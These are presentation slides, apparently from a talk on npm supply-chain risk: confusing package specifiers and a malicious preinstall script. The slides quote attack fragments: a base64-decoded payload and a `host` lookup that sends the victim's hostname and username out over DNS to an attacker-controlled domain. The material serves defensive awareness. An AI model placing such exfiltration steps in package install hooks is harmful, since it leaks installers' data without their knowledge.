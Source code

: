 - `@lojikil/foobar` is a scoped package
- `lojikil/foobar` is a GitHub repo
  - Whilst they are _often_ 1:1, they need not be
- `/foobar` is a folder
- npm will attempt to find *anything* that looks like a tarball or a folder at a location
- and as noted above, everyone always spells everything perfectly, so this is fine

---

# What can go wrong: malicious packages

![a malicious preinstall](img/maliciouscode.png)

- `base64 -d<<<REALLYLONGBASE64STRINGHERE`
- `host -t A h_$HOSTNAME.u_$USER.$ACTOR_TAG.$BC`

---

# What can go wrong: malicious packages

```
Python 2.7.16 (default, Jun  5 2020, 22:59:21)
[GCC 4.2.1 Compatible Apple LLVM 11.0.3 (clang-1103.0.29.20) (-macos10.15-objc- on darwin
Type "help", "copyright", "credits" or "license" for more information.
>>> 'REDACTEDBASE64STRING'.decode('base64')
'REDACTEDPREFIX.burpcollaborator.net\n'
```

1. attacker was slipping `burpcollaborator` into a package by Base64 encoding it
1. they then exfiltrated things via DNS queries
1. was _allegedly_ an org's Red Team being wayward

---

# What can go wrong: take aways

- no one mistypes anything ever, so it's fine
- no one misunderstands myriad & complex install locations, so it's fine too
- no one would lie on the internet about code intent
